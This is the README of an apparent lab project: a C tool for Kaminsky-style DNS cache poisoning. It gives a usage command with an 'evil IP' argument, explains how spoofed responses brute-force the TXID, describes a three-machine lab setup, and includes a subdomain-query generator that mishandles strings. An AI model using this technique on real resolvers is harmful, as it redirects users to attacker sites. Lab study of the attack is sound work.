





# kaminsky-attack
kaminsky-attack - DNS cache poisoning - written in pure C with extremly high performance

This attack is well-known and STILL unfixed. Though some progress was made to create NEW DNS protocols for protection against such attacks. Though in reality they are hard to execute. This is time-based attack.

The main victim is the DNS server. Which then the attacker can redirect DNS requests to his evil website. 

# Usage

`$ make `

`$ sudo ./a.out 127.0.0.1 127.0.0.2 ns.dnslabattacker.net 199.43.135.53 6.6.6.6 9999 64000`

Arguments: 
```
argv[0] – executable (the program path - ignore)
argv[1] – src ip (attacker’s computer – ip of attacker – example: 10.0.2.17)
argv[2] – dst ip (victim nameserver – example: 10.0.2.16)
argv[3] – target domain name server (example: ns1.BankOfShlomi.com) as string
argv[4] – target domain name server ip (real IP of name server for dns)
argv[5] – the evil ip you want to ns to cache store (example: 6.6.6.6 – evil website)
argv[6] – query count (amount of xxxx.example.com queries)
argv[7] – guess count per query (this will try to guess TXID)
```

# Background

Kaminsky attack is time based attack. It sends lots of packets, hoping to inject the correct `txid` field in the DNS protocol. This ID field is proof that the sender is the legit DNS server. 

# How the attack works

Attack sends DNS query for: `1.domain.com`, `2.domain.com`, `3.domain.com`, ..., `i.domain.com` and so on.

For each query, the DNS resolver(victim) then has to query authorative DNS server. (For example: ns.domain.com)

Then, for each query, the attacker sends RESPONSE to the DNS resolver(victim) in the name of the authorative DNS server (ns.domain.com), each time with diffirent `txid` field, untill the DNS cache of the vicim is poisioned.

The `txid` field is 16-bit long, which is ~64k. You can send millions of packets every second if you fast enough.

If the attacker is fast enough, he can find the correct `txid` in no time.

Each query is diffirent, which allows us to BYPASS TTL checks

## Attack flow



# Lab Setup

1. Clone 3 Ubuntu 16.04 (or later) machines
2. Lab network configuration
	1. DNS Server IP is: 10.0.2.16
	2. DNS Attacker IP is: 10.0.2.17
	3. DNS User IP is: 10.0.2.18
3. All machines have access to the internet
4. All machines have access to each other (same network, subnet)
5. C libraries (for attacker only): libnet
	* You can install: `$ sudo apt install libnet-dev`
	* Compiler: gcc

## DNS Server
Settings:


## DNS User machine
Settings:


## DNS Attacker
Settings:


## Test DNS server and DNS user talking to each other
User sends DNS requests to DNS server (using dig):


DNS server recevies requests:


# Lab Task 1.1 – Spoofing DNS request

Spoofing DNS request (with random sub-domain) is easy. My code (located in udp.c):

```
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
int main() {
	int subdomainsize = 6;
	int querysize = subdomainsize + strlen(".example.com");
	
	srand(time(NULL)); //seed random
	
	char query[querysize]; //this is the whole domain
	
	for(int i = 0; i < subdomainsize; i++) {
		query[i] = 'a' + (rand() % 26);
	}

	strcat(query, ".example.com");
	printf("query = %s\n", query);

	//execute the dig command
	char command[50];
	memset(command, 0, 50);
	strcat(command, "dig ");
	strcat(command, query);
	system(command);
}
```

## Running udp.c
Running:


DNS server receives spoofed queries:


We can see that the attacker spoofs a lot of dns queries very fast. We can also see that for some DNS queries the DNS server sends the authorative server as response:


# Lab task 2 - Kaminsky Attack

The attack:

